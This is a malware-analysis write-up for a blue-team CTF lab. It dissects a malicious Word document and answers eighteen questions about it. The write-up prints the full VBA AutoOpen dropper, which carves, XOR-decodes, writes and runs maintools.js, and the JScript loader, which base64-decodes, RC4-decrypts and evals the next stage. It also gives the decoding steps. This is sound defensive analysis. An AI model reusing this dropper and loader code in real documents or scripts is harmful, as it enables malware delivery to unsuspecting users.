

# Obfuscated Lab

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Questions](#questions)
- [Artifacts](#artifacts)
- [Lab Insights](#lab-insights)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/obfuscated/](https://cyberdefenders.org/blueteam-ctf-challenges/obfuscated/)

Suggested tools: CMD Watcher, `Oledump`, `sha256sum`, `olevba`, `dd`, VS Code, CyberChef

Tactics: Initial Access, Execution, Stealth

# Scenario

While working as a SOC analyst, you may encounter alerts from the enterprise Endpoint Detection and Response (EDR) system regarding unusual activity on an end-user machine. In one instance, a user reported receiving an email containing a DOC file from an unknown sender. The user subsequently submitted the document for analysis to ensure it does not pose a security risk.

**Warning: This writeup involves live, unclassified malware samples (VBA macro dropper + JScript payload) — never open the sample document or execute any decoded stage outside an isolated, non-networked analysis environment.**

# Questions

Q1- What is the SHA256 hash of the DOC file?

Answer: `ff2c8cadaa0fd8da6138cce6fce37e001f53a5d9ceccd67945b15ae273f4d751`

Reason: The submitted document `49b367ac261a722a7c2bbbc328c32545` was hashed to establish a chain-of-custody baseline before any further analysis, and the resulting SHA256 value confirms the exact binary content of the sample under review at the start of the investigation.

```bash
$ sha256sum 49b367ac261a722a7c2bbbc328c32545
ff2c8cadaa0fd8da6138cce6fce37e001f53a5d9ceccd67945b15ae273f4d751  49b367ac261a722a7c2bbbc328c32545
```

Q2- Multiple streams contain macros in this document. Provide the number of the lowest one.

Answer: 8

Reason: Stream enumeration of the document via `oledump` identified two streams flagged as containing VBA macro code, `M` at stream 8 (`Macros/VBA/Module1`, 7117 bytes) and `m` at stream 9 (`Macros/VBA/ThisDocument`, 1104 bytes), making stream `8` the lowest-numbered macro-bearing stream.

```bash
$ oledump 49b367ac261a722a7c2bbbc328c32545 
  1:       114 '\x01CompObj'
  2:       284 '\x05DocumentSummaryInformation'
  3:       392 '\x05SummaryInformation'
  4:      8017 '1Table'
  5:      4096 'Data'
  6:       483 'Macros/PROJECT'
  7:        65 'Macros/PROJECTwm'
  8: M    7117 'Macros/VBA/Module1'
  9: m    1104 'Macros/VBA/ThisDocument'
 10:      3467 'Macros/VBA/_VBA_PROJECT'
 11:      2964 'Macros/VBA/__SRP_0'
 12:       195 'Macros/VBA/__SRP_1'
 13:      2717 'Macros/VBA/__SRP_2'
 14:       290 'Macros/VBA/__SRP_3'
 15:       565 'Macros/VBA/dir'
 16:        76 'ObjectPool/_1541577328/\x01CompObj'
 17: O   20301 'ObjectPool/_1541577328/\x01Ole10Native'
 18:      5000 'ObjectPool/_1541577328/\x03EPRINT'
 19:         6 'ObjectPool/_1541577328/\x03ObjInfo'
 20:    133755 'WordDocument'
```

Q3- What is the decryption key of the obfuscated code?

Answer: `EzZETcSXyKAdF_e5I2i1`

Reason: The RC4 decryption key used to decode the second-stage `maintools.js` payload is `EzZETcSXyKAdF_e5I2i1`, a value embedded directly in the VBA macro (`Macros/VBA/Module1`) of the malicious document (last saved `2016-11-25 20:04:00`). The `AutoOpen()` subroutine reads the document's own raw bytes into a byte array, locates an embedded marker string via regex on a Unicode-converted copy of those bytes, then carves and rolling-XOR-decodes a 16828-byte blob starting at file offset `148158` (single-byte XOR seeded at `45`, updated per byte as `(key XOR 99) XOR (i Mod 254)`). The decoded blob is written to `%appdata%\Microsoft\Windows\maintools.js` and launched via `WScript.Shell.Run`, with the literal string `EzZETcSXyKAdF_e5I2i1` appended as a command-line argument. Inside `maintools.js`, that argument is read via `WScript.Arguments(0)` and passed directly into a custom `CpPT()` function implementing standard RC4 KSA/PRGA, which decrypts a large base64-encoded blob (`y3zb()`) before the result is executed with `eval()` — confirming this argument is the RC4 key for the next-stage payload.

**Full Analysis**

`EzZETcSXyKAdF_e5I2i1` comes from the VBA macro (`vb.code` line 69), where `AutoOpen()` launches the dropped `maintools.js` via `WScript`:

```vbnet
R66BpJMgxXBo2h.Run """" + OBKHLrC3vEDjVL + """" + " EzZETcSXyKAdF_e5I2i1"
```

- `R66BpJMgxXBo2h` is the `WScript.Shell` object
- `OBKHLrC3vEDjVL` is the full path to `maintools.js`
- The string appended after it (`EzZETcSXyKAdF_e5I2i1`) is passed as a command-line argument to the script

In `maintools.js`:

```jsx
wvy1 = WScript.Arguments
ssWZ = wvy1(0)
```

This picks up that exact same argument as `ssWZ`, which is then used as the RC4 key in `CpPT(ssWZ, ES3c)` in the JS code below.

**Malicious VBA Logic**

- `AutoOpen()` reads the document's own raw bytes into a byte array, converts them to a string (`StrConv(..., vbUnicode)`), and runs a regex against that string looking for a specific marker string (line 37) to find where the payload begins.
- Once it finds that marker's position (`FirstIndex`), it reads 16827+1 = 16828 bytes starting at offset + 81 — that's your carve target.
- Those 16828 bytes get passed to `Q7JOhn5pIl648L6V43V()` (the XOR routine), a rolling single-byte XOR: starting key `45`, then after each byte the key updates as `(key XOR 99) XOR (i Mod 254)`.
- The decoded bytes are written out to `%appdata%\Microsoft\Windows\maintools.js` (or plain `%appdata%` if that folder doesn't exist), then executed via `WScript.Shell.Run` with an argument `EzZETcSXyKAdF_e5I2i1`.
- The macro's loop takes the first match only (`For Each ... Exit For` breaks after the first iteration), so it uses the lower offset: `148078`. Note that `.FirstIndex` on a regex match is 0-based, while VBA's `Get` statement position argument is 1-based — the macro passes `FirstIndex + 81` directly as that 1-based position without adding 1 to convert, so the real 0-based starting byte is `(148078 + 81) - 1 = 148158`. Length = `16827 + 1 = 16828` bytes (from `KDXl18qY4rcT + 1`).

**Malicious Decrypted JS Code Logic**

- `y3zb()` — returns one giant embedded base64 string (the encoded/encrypted next-stage payload).
- `MTvK()` / `LXv5()` — a standard base64 decoder (charcode-to-6-bit lookup, unrolled 4-byte-in/3-byte-out decode loop).
- `CpPT(bOe3, F5vZ)` — this is textbook RC4: KSA (key-scheduling loop building the 256-byte permutation array from key `bOe3`) followed by PRGA (keystream generation XORed against `F5vZ`).
- Top of the file: `ssWZ = wvy1(0)` (the WScript command-line argument), `ES3c = y3zb()` → base64-decode → RC4-decrypt using `ssWZ` as the key → `eval(ES3c)`.

```bash
$ grep -abo "MxOH8pcrlepD3SRfF5ffVTy86Xe41L2qLnqTd5d5R7Iq87mWGES55fswgG84hIRdX74dlb1SiFOkR1Hh" 49b367ac261a722a7c2bbbc328c32545
148078:MxOH8pcrlepD3SRfF5ffVTy86Xe41L2qLnqTd5d5R7Iq87mWGES55fswgG84hIRdX74dlb1SiFOkR1Hh
174495:MxOH8pcrlepD3SRfF5ffVTy86Xe41L2qLnqTd5d5R7Iq87mWGES55fswgG84hIRdX74dlb1SiFOkR1Hh

$ dd if=49b367ac261a722a7c2bbbc328c32545 of=payload.enc bs=1 skip=148158 count=16828
16828+0 records in
16828+0 records out
16828 bytes (17 kB, 16 KiB) copied, 0.0167963 s, 1.0 MB/s

$ python3 script.py                                                                
                                                                                                                               
$ file dumped_payload 
dumped_payload: ASCII text, with very long lines (14852), with CRLF line terminators
```

**XOR Decryption Code**

```python
python3 -c '
data = []
with open('./payload.enc', 'rb') as f:
    data = f.read()

output = [0] * len(data)
xor_byte = 45
for i in range(len(data)):
    output[i] = data[i] ^ xor_byte
    xor_byte = (xor_byte ^ 99) ^ (i % 254)

with open('./dumped_payload', 'wb') as f:
    f.write(bytes(output))
'
```

**Malicious VBA Macro Code Block**

```vbnet
Public OBKHLrC3vEDjVL As String
Public B8qen2T433Ds1bW As String

Function Q7JOhn5pIl648L6V43V(EjqtNRKMRiVtiQbSblq67() As Byte, M5wI32R3VF2g5B21EK4d As Long) As Boolean
    Dim THQNfU76nlSbtJ5nX8LY6 As Byte
    THQNfU76nlSbtJ5nX8LY6 = 45

    For i = 0 To M5wI32R3VF2g5B21EK4d - 1
        EjqtNRKMRiVtiQbSblq67(i) = EjqtNRKMRiVtiQbSblq67(i) Xor THQNfU76nlSbtJ5nX8LY6
        THQNfU76nlSbtJ5nX8LY6 = ((THQNfU76nlSbtJ5nX8LY6 Xor 99) Xor (i Mod 254))
    Next i

    Q7JOhn5pIl648L6V43V = True
End Function

Sub AutoClose()
    On Error Resume Next
    Kill OBKHLrC3vEDjVL

    On Error Resume Next
    Set R7Ks7ug4hRR2weOy7 = CreateObject("Scripting.FileSystemObject")
    R7Ks7ug4hRR2weOy7.DeleteFile B8qen2T433Ds1bW & "\*.*", True
    Set R7Ks7ug4hRR2weOy7 = Nothing
End Sub

Sub AutoOpen()
    On Error GoTo MnOWqnnpKXfRO

    Dim NEnrKxf8l511
    Dim N18Eoi6OG6T2rNoVl41W As Long
    Dim M5wI32R3VF2g5B21EK4d As Long

    N18Eoi6OG6T2rNoVl41W = FileLen(ActiveDocument.FullName)
    NEnrKxf8l511 = FreeFile
    Open (ActiveDocument.FullName) For Binary As #NEnrKxf8l511

    Dim E2kvpmR17SI() As Byte
    ReDim E2kvpmR17SI(N18Eoi6OG6T2rNoVl41W)
    Get #NEnrKxf8l511, 1, E2kvpmR17SI

    Dim KqG31PcgwTc2oL47hjd7Oi As String
    KqG31PcgwTc2oL47hjd7Oi = StrConv(E2kvpmR17SI, vbUnicode)

    Dim N34rtRBIU3yJO2cmMVu, I4j833DS5SFd34L3gwYQD
    Dim VUy5oj112fLw51h6S
    Set VUy5oj112fLw51h6S = CreateObject("vbscript.regexp")
    VUy5oj112fLw51h6S.Pattern = "MxOH8pcrlepD3SRfF5ffVTy86Xe41L2qLnqTd5d5R7Iq87mWGES55fswgG84hIRdX74dlb1SiFOkR1Hh"
    Set I4j833DS5SFd34L3gwYQD = VUy5oj112fLw51h6S.Execute(KqG31PcgwTc2oL47hjd7Oi)

    Dim Y5t4Ul7o385qK4YDhr
    If I4j833DS5SFd34L3gwYQD.Count = 0 Then
        GoTo MnOWqnnpKXfRO
    End If

    For Each N34rtRBIU3yJO2cmMVu In I4j833DS5SFd34L3gwYQD
        Y5t4Ul7o385qK4YDhr = N34rtRBIU3yJO2cmMVu.FirstIndex
        Exit For
    Next

    Dim Wk4o3X7x1134j() As Byte
    Dim KDXl18qY4rcT As Long
    KDXl18qY4rcT = 16827
    ReDim Wk4o3X7x1134j(KDXl18qY4rcT)
    Get #NEnrKxf8l511, Y5t4Ul7o385qK4YDhr + 81, Wk4o3X7x1134j

    If Not Q7JOhn5pIl648L6V43V(Wk4o3X7x1134j(), KDXl18qY4rcT + 1) Then
        GoTo MnOWqnnpKXfRO
    End If

    B8qen2T433Ds1bW = Environ("appdata") & "\Microsoft\Windows"
    Set R7Ks7ug4hRR2weOy7 = CreateObject("Scripting.FileSystemObject")
    If Not R7Ks7ug4hRR2weOy7.FolderExists(B8qen2T433Ds1bW) Then
        B8qen2T433Ds1bW = Environ("appdata")
    End If
    Set R7Ks7ug4hRR2weOy7 = Nothing

    Dim K764B5Ph46Vh
    K764B5Ph46Vh = FreeFile
    OBKHLrC3vEDjVL = B8qen2T433Ds1bW & "\" & "maintools.js"
    Open (OBKHLrC3vEDjVL) For Binary As #K764B5Ph46Vh
    Put #K764B5Ph46Vh, 1, Wk4o3X7x1134j
    Close #K764B5Ph46Vh
    Erase Wk4o3X7x1134j

    Set R66BpJMgxXBo2h = CreateObject("WScript.Shell")
    R66BpJMgxXBo2h.Run """" + OBKHLrC3vEDjVL + """" + " EzZETcSXyKAdF_e5I2i1"

    ActiveDocument.Save
    Exit Sub

MnOWqnnpKXfRO:
    Close #K764B5Ph46Vh
    ActiveDocument.Save
End Sub
```

**Malicious JS Code Block**

```jsx
try {
    var wvy1 = WScript.Arguments
    var ssWZ = wvy1(0)
    var ES3c = y3zb()
    ES3c = LXv5(ES3c)
    ES3c = CpPT(ssWZ, ES3c)
    eval(ES3c)
} catch (e) {
    WScript.Quit()
}

function MTvK(CgqD) {
    var XwH7 = CgqD.charCodeAt(0)
    if (XwH7 === 0x2B || XwH7 === 0x2D) return 62
    if (XwH7 === 0x2F || XwH7 === 0x5F) return 63
    if (XwH7 < 0x30) return -1
    if (XwH7 < 0x30 + 10) return XwH7 - 0x30 + 26 + 26
    if (XwH7 < 0x41 + 26) return XwH7 - 0x41
    if (XwH7 < 0x61 + 26) return XwH7 - 0x61 + 26
}

function LXv5(d27x) {
    var LUK7 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
    var i
    var j
    var n6T8
    if (d27x.length % 4 > 0)
        return
    var CHlB = d27x.length
    var V8eR = d27x.charAt(CHlB - 2) === '=' ? 2 : d27x.charAt(CHlB - 1) === '=' ? 1 : 0
    var mjqo = new Array(d27x.length * 3 / 4 - V8eR)
    var z8Ht = V8eR > 0 ? d27x.length - 4 : d27x.length
    var t2JG = 0
    function XGH6(b0tQ) {
        mjqo[t2JG++] = b0tQ
    }
    for (i = 0, j = 0; i < z8Ht; i += 4, j += 3) {
        n6T8 = (MTvK(d27x.charAt(i)) << 18) | (MTvK(d27x.charAt(i + 1)) << 12) | (MTvK(d27x.charAt(i + 2)) << 6) | MTvK(d27x.charAt(i + 3))
        XGH6((n6T8 & 0xFF0000) >> 16)
        XGH6((n6T8 & 0xFF00) >> 8)
        XGH6(n6T8 & 0xFF)
    }
    if (V8eR === 2) {
        n6T8 = (MTvK(d27x.charAt(i)) << 2) | (MTvK(d27x.charAt(i + 1)) >> 4)
        XGH6(n6T8 & 0xFF)
    } else if (V8eR === 1) {
        n6T8 = (MTvK(d27x.charAt(i)) << 10) | (MTvK(d27x.charAt(i + 1)) << 4) | (MTvK(d27x.charAt(i + 2)) >> 2)
        XGH6((n6T8 >> 8) & 0xFF)
        XGH6(n6T8 & 0xFF)
    }
    return mjqo
}

function CpPT(bOe3, F5vZ) {
    var AWy7 = []
    var V2Vl = 0
    var qyCq
    var mjqo = ''
    for (var i = 0; i < 256; i++) {
        AWy7[i] = i
    }
    for (var i = 0; i < 256; i++) {
        V2Vl = (V2Vl + AWy7[i] + bOe3.charCodeAt(i % bOe3.length)) % 256
        qyCq = AWy7[i]
        AWy7[i] = AWy7[V2Vl]
        AWy7[V2Vl] = qyCq
    }
    var i = 0
    var V2Vl = 0
    for (var y = 0; y < F5vZ.length; y++) {
        i = (i + 1) % 256
        V2Vl = (V2Vl + AWy7[i]) % 256
        qyCq = AWy7[i]
        AWy7[i] = AWy7[V2Vl]
        AWy7[V2Vl] = qyCq
        mjqo += String.fromCharCode(F5vZ[y] ^ AWy7[(AWy7[i] + AWy7[V2Vl]) % 256])
    }
    return mjqo
}

function y3zb() {
    var qGxZ = "zAubgp[........]eRfjQP5lsrSZWJKNJ5ZSbf06ZO4="
    return qGxZ
}
```



Q4- What is the name of the dropped file?

Answer: `maintools.js`

Reason: The dropped file created by the malicious VBA macro is `maintools.js`, written to `%appdata%\Microsoft\Windows\maintools.js` (or `%appdata%\maintools.js` if that subfolder does not exist) at the time `AutoOpen()` executes upon document open. The path is built in `vb.code` as `OBKHLrC3vEDjVL = B8qen2T433Ds1bW & "\" & "maintools.js"`, then the carved and rolling-XOR-decoded payload bytes are written to that path via `Put #K764B5Ph46Vh, 1, Wk4o3X7x1134j`, and the file is immediately executed via `WScript.Shell.Run` with the RC4 key `EzZETcSXyKAdF_e5I2i1` passed as its command-line argument.

```vbnet
OBKHLrC3vEDjVL = B8qen2T433Ds1bW & "\" & "maintools.js"
Open (OBKHLrC3vEDjVL) For Binary As #K764B5Ph46Vh
Put #K764B5Ph46Vh, 1, Wk4o3X7x1134j
```

Q5- This script uses what language?

Answer: JScript

Reason: The dropped `maintools.js` payload is written in JScript, Microsoft's implementation of the ECMAScript standard used by the Windows Script Host (WSH) engine. This is evidenced both by the `.js` extension being executed directly via `WScript.Shell.Run`, which invokes `cscript.exe`/`wscript.exe` (the WSH interpreters that parse `.js` files as JScript, not a browser's V8/JS engine), and by the script's use of WSH-specific APIs such as `WScript.Arguments` and `WScript.Quit()` that only exist inside the JScript/WSH execution environment.

Q6- What is the name of the variable that is assigned the command-line arguments?

Answer: `wvy1`

Reason: The variable assigned the command-line arguments in `maintools.js` is `wvy1`, set at the top of the script as `var wvy1 = WScript.Arguments;`, which captures the WSH `Arguments` collection passed to the script when it was launched by the VBA macro's `WScript.Shell.Run` call. The script then immediately reads the first argument, `ssWZ = wvy1(0)`, retrieving the RC4 key `EzZETcSXyKAdF_e5I2i1` that was appended to the run command.

```jsx
var wvy1 = WScript.Arguments; var ssWZ = wvy1(0);
```

Q7- How many command-line arguments does this script expect?

Answer: 1

Reason: The script expects exactly 1 command-line argument, evidenced by `maintools.js` only ever indexing `wvy1(0)` — a single call to `WScript.Arguments(0)` — with no further indices referenced anywhere in the script. That single argument, the RC4 key `EzZETcSXyKAdF_e5I2i1`, is the only value the VBA macro appends when it launches the script via `WScript.Shell.Run`.

Q8- What instruction is executed if this script encounters an error?

Answer: `WScript.Quit()`

Reason: If `maintools.js` encounters an error during its main execution block, it runs `WScript.Quit()`, terminating the script immediately. This is defined in the script's top-level `try { ... } catch (e) { WScript.Quit(); }` structure, which wraps the argument retrieval, base64 decode, RC4 decrypt, and `eval()` call — so any failure at any of those stages (e.g. a missing or invalid RC4 key argument) causes silent termination rather than a visible error or crash, a basic anti-analysis/fail-quiet measure.

```jsx
try { var wvy1 = WScript.Arguments; var ssWZ = wvy1(0); var ES3c = y3zb(); ES3c = LXv5(ES3c); ES3c = CpPT(ssWZ, ES3c); eval(ES3c); }
catch (e) { WScript.Quit(); }
```

Q9- What function returns the next stage of code (i.e. the first round of obfuscated code)?

Answer: `y3zb`

Reason: The function that returns the next stage of code, the base64-encoded blob that gets decoded and RC4-decrypted before execution, is `y3zb()`. It simply holds a single large hardcoded base64 string (`qGxZ`) as a local variable and returns it, serving as the embedded data source that `ES3c = y3zb()` pulls from before the subsequent `LXv5()` (base64 decode) and `CpPT()` (RC4 decrypt) calls transform it into the executable next stage passed to `eval()`.

```jsx
function y3zb() { var qGxZ = "..."; return qGxZ; }
```

Q10- The function LXv5 is important, what variable is assigned a key string value in determining what this function does?

Answer: `LUK7`

Reason: Inside `LXv5()`, the variable assigned the key string value is `LUK7`, set to `"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"`. This is the standard base64 alphabet, and its presence is what identifies `LXv5()` as a base64 decoder — it works together with the `MTvK()` helper function (which maps each character back to its 6-bit index in this alphabet) to reconstruct the original bytes from the base64-encoded blob returned by `y3zb()`.

```jsx
var LUK7 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";
```

Q11- What encoding scheme is this function responsible for decoding?

Answer: `base64`

Reason: The `LXv5()` function is responsible for decoding base64. This is confirmed by the standard base64 alphabet string assigned to `LUK7` (`"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"`), the `MTvK()` helper that converts each input character back to its 6-bit index within that alphabet, the padding-character (`=`) handling logic (`V8eR`), and the unrolled 4-input-character-to-3-output-byte decode loop, all of which are the textbook implementation pattern for a manual base64 decoder.

```jsx
var LUK7 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";
n6T8 = (MTvK(d27x.charAt(i)) << 18) | (MTvK(d27x.charAt(i + 1)) << 12) | (MTvK(d27x.charAt(i + 2)) << 6) | MTvK(d27x.charAt(i + 3));
```

Q12- In the function `CpPT`, the first two for() loops are responsible for what important part of this function?

Answer: key-scheduling algorithm

Reason: The first two `for()` loops in `CpPT()` implement RC4's Key-Scheduling Algorithm (KSA). The first loop initializes the 256-byte state array `AWy7[i] = i` for `i` from `0` to `255`, producing the identity permutation. The second loop then scrambles that array using the supplied key `bOe3` (the RC4 key `EzZETcSXyKAdF_e5I2i1`), computing `V2Vl = (V2Vl + AWy7[i] + bOe3.charCodeAt(i % bOe3.length)) % 256` and swapping `AWy7[i]` with `AWy7[V2Vl]` at each step, producing a key-dependent permutation of the state array that the subsequent PRGA loop uses to generate the keystream.

```jsx
for (var i = 0; i < 256; i++) { AWy7[i] = i; }
for (var i = 0; i < 256; i++) { V2Vl = (V2Vl + AWy7[i] + bOe3.charCodeAt(i % bOe3.length)) % 256; qyCq = AWy7[i]; AWy7[i] = AWy7[V2Vl]; AWy7[V2Vl] = qyCq; }
```

Q13- The function `CpPT` requires two arguments, where does the value of the first argument come from?

Answer: command-line argument

Reason: The first argument to `CpPT(bOe3, F5vZ)` is `bOe3`, the RC4 key, and its value traces back to the command-line argument supplied to the script. It flows as `ssWZ = wvy1(0)` (`WScript.Arguments(0)`, the value `EzZETcSXyKAdF_e5I2i1` appended by the VBA macro's `WScript.Shell.Run` call), then `ES3c = CpPT(ssWZ, ES3c)` passes `ssWZ` directly into `CpPT()` as `bOe3`, seeding the KSA that scrambles the RC4 state array before decrypting the base64-decoded payload.

```jsx
var ssWZ = wvy1(0); ...
ES3c = CpPT(ssWZ, ES3c);
```

Q14- For the function `CpPT`, what does the first argument represent?

Answer: key

Reason: The first argument to `CpPT(bOe3, F5vZ)`, `bOe3`, represents the RC4 encryption key. It is consumed exclusively in the Key-Scheduling Algorithm loop (`bOe3.charCodeAt(i % bOe3.length)`) to scramble the 256-byte state array before the PRGA loop generates the keystream used to decrypt `F5vZ`, which is the standard role of the key parameter in an RC4 implementation.

```jsx
V2Vl = (V2Vl + AWy7[i] + bOe3.charCodeAt(i % bOe3.length)) % 256;
```

Q15- What encryption algorithm does the function `CpPT` implement in this script?

Answer: RC4

Reason: The function `CpPT()` implements the RC4 stream cipher. This is evident from its two-phase structure matching RC4's canonical design: a Key-Scheduling Algorithm (KSA) that builds a key-dependent permutation of a 256-byte state array from the `bOe3` key, followed by a Pseudo-Random Generation Algorithm (PRGA) loop that walks the permuted array with the classic `i = (i + 1) % 256`, `V2Vl = (V2Vl + AWy7[i]) % 256` swap-and-index pattern to produce a keystream, which is then XORed byte-by-byte against `F5vZ` via `String.fromCharCode(F5vZ[y] ^ AWy7[(AWy7[i] + AWy7[V2Vl]) % 256])`.

```jsx
for (var y = 0; y < F5vZ.length; y++) {
    i = (i + 1) % 256
    V2Vl = (V2Vl + AWy7[i]) % 256
    qyCq = AWy7[i]
    AWy7[i] = AWy7[V2Vl]
    AWy7[V2Vl] = qyCq
    mjqo += String.fromCharCode(F5vZ[y] ^ AWy7[(AWy7[i] + AWy7[V2Vl]) % 256])
}
```

Q16- What function is responsible for executing the deobfuscated code?

Answer: `eval`

Reason: The function responsible for executing the deobfuscated code is `eval()`, called as `eval(ES3c)` at the end of the script's main `try` block. By this point `ES3c` has been transformed from the base64 blob returned by `y3zb()` through `LXv5()` (base64 decode) and `CpPT(ssWZ, ES3c)` (RC4 decrypt), so `eval()` is what actually hands the fully recovered next-stage JScript source to the engine for execution, completing the multi-stage deobfuscation chain.

Q17- What Windows Script Host program can be used to execute this script in command-line mode?

Answer: `cscript.exe`

Reason: `cscript.exe` is the Windows Script Host executable used to run scripts in command-line mode, versus `wscript.exe` which runs them in GUI mode. Both interpreters execute the same `.js`/`.vbs` script files and support the exact same WSH object model (`WScript.Shell`, `WScript.Arguments`, etc.) used by `maintools.js` — the difference is purely how output/input and errors are handled, not what code can run.

Why `cscript` over `wscript` for analysis/execution here specifically:

- `cscript.exe` attaches to the console — `WScript.Echo()` output, errors, and any console-style debugging print directly to your terminal, which matters a lot when you're trying to observe what a malicious script does (e.g. adding your own `WScript.Echo(ES3c)` right before the `eval()` call to dump the decrypted stage 4 source instead of letting it execute).
- `wscript.exe` is the default handler when you double-click a `.js`/`.vbs` file in Explorer — any `WScript.Echo()` calls pop up as GUI message boxes instead, and there's no stdin/stdout redirection, which makes it awkward for scripted/automated analysis or capturing output to a file.
- Neither is "more capable" — the script itself doesn't know or care which host launched it (that's exactly why this sample works identically either way) — the choice only affects the analyst's visibility into what's happening.

Q18- What is the name of the first function defined in the deobfuscated code?

Answer: `UspD`

Reason: The first function defined in the deobfuscated (stage-4) code is `UspD(zDmy)`, confirmed by decoding the base64 blob from `y3zb()` and RC4-decrypting it in CyberChef using the passphrase `EzZETcSXyKAdF_e5I2i1`, which reveals plaintext JScript beginning with `function UspD(zDmy) {var m3mH = WScript.CreateObject("...")`. This mirrors the exact operations performed by `maintools.js` itself (`LXv5()` for base64 decode, `CpPT()` for RC4 decrypt, `eval()` to execute) and gives a readable view of the next stage without letting it actually run.


# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Sample | Document hash (SHA256) | `ff2c8cadaa0fd8da6138cce6fce37e001f53a5d9ceccd67945b15ae273f4d751` |
|  | Format | Composite Document File V2 (legacy OLE `.doc`) |
|  | Last Saved | `2016-11-25 20:04:00` |
| Delivery | Macro-bearing streams | `Macros/VBA/Module1` (stream 8), `Macros/VBA/ThisDocument` (stream 9) |
| Stage 1 (VBA) | Marker string (payload anchor) | `MxOH8pcrlepD3SRfF5ffVTy86Xe41L2qLnqTd5d5R7Iq87mWGES55fswgG84hIRdX74dlb1SiFOkR1Hh` |
|  | Marker byte offset (first match used) | `148078` |
|  | Payload carve offset (0-based) | `148158` |
|  | Payload length | `16828` bytes |
|  | XOR cipher | Rolling single-byte XOR, seed `45`, update `(key XOR 99) XOR (i Mod 254)` |
| Dropped File | Path | `%appdata%\Microsoft\Windows\maintools.js` (fallback `%appdata%\maintools.js`) |
|  | Language | JScript (Windows Script Host) |
|  | Launch mechanism | `WScript.Shell.Run` |
|  | Launch argument (RC4 key) | `EzZETcSXyKAdF_e5I2i1` |
| Stage 2 (JS) | Command-line arg variable | `wvy1` (`WScript.Arguments`) |
|  | Expected argument count | `1` |
|  | Error handling | `try/catch` → `WScript.Quit()` |
|  | Base64 payload source function | `y3zb()` |
|  | Base64 decode function | `LXv5()` (alphabet var `LUK7`) |
|  | RC4 cipher function | `CpPT(bOe3, F5vZ)` |
|  | Execution primitive | `eval(ES3c)` |
|  | Execution engine | `cscript.exe` (analysis) / `wscript.exe` (default, silent) |
| Stage 3 (JS) | First defined function | `UspD(zDmy)` |

# Lab Insights

- **Multi-layer encoding isn't multi-layer security.** This chain stacked four distinct obfuscation primitives (rolling XOR → base64 → RC4 → JScript's native `eval`), but every single layer was a well-known, textbook algorithm implemented with only variable names changed. Once one layer is recognized (a KSA/PRGA loop is unmistakably RC4 regardless of identifier names), the rest of the chain falls quickly — obfuscation here bought the attacker time against automated signature scanning, not against a human reading the logic.
- **Self-referential payload staging avoids network telemetry entirely.** The first-stage payload wasn't fetched from a C2 server — it was carved directly out of the parent document's own raw bytes at a regex-located offset. This is a deliberate design choice: no outbound connection exists for a network-based detection tool to catch during initial payload extraction, pushing all detection opportunity onto host-based/static analysis of the document itself.
- **Precision in offset arithmetic matters as much as understanding the algorithm.** The rolling XOR decode logic was correct from the first attempt, but a single off-by-one in the carve offset (VBA's 1-based `Get` position vs. the 0-based `.FirstIndex` match index) produced total garbage output despite a technically correct cipher implementation — a reminder that stream ciphers with position-dependent keystreams fail completely, not gracefully, on any misalignment.
- **Execution-host choice is itself an evasion decision.** The macro's `WScript.Shell.Run` call with a bare script path (no explicit interpreter) resolves to `wscript.exe` by default — the GUI-subsystem host that never allocates a console window. Nothing in the payload logic required this; it was purely selected for its silent execution profile over the console-attached `cscript.exe`, illustrating that "stealth" decisions in malware often live in launch mechanics, not just in the payload code itself.